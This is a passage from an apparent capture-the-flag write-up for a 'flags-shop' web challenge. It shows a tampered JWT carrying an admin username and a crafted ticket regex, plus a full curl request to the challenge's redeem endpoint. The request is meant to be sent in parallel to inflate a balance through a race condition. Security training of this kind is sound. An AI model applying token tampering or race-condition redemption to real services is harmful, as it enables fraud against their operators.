 <img src="./4.png"
     alt="Markdown Monster icon"
     style="
     width: 80%;
     diplay: box;"
/>

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwidGlja2V0X3JlZ2V4IjoiKC4qYSl7MjV9IiwiZXhwIjoxNjgzNTYxNjA4fQ.ndcdggab6C0HoK3dIgBb00uN08w1bcaBXfQ5cXU9X0A
```

Now, the only thing remaining is to replace the token, use the examples string to send 4 parallel requests to enhance the balance. Here is the command of a single one :

```
curl 'https://0pgbey7np8cph3b-flags-shop.insts.bsides.shellmates.club//redeem' -X POST -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate, br' -H 'Content-Type: application/x-www-form-urlencoded' -H 'Origin: https://0pgbey7np8cph3b-flags-shop.insts.bsides.shellmates.club/' -H 'Connection: keep-alive' -H 'Referer: https://0pgbey7np8cph3b-flags-shop.insts.bsides.shellmates.club/' -H 'Cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluMyIsInRpY2tldF9yZWdleCI6IiguKmEpezIwfSIsImV4cCI6MTY4MzU2NDAxM30.mfTMh4WvJT3oXyjqDLvjUn_gtkg_z748Qq1ob9BXuVY' -H 'Upgrade-Insecure-Requests: 1' -H 'Sec-Fetch-Dest: document' -H 'Sec-Fetch-Mode: navigate' -H 'Sec-Fetch-Site: same-origin' -H 'Sec-Fetch-User: ?1' --data-raw 'ticket=aaaaaaaaaaaaaaaaaaaaaaaaaaaa'
```

We cocatenate the four using `&` operator, we will get :
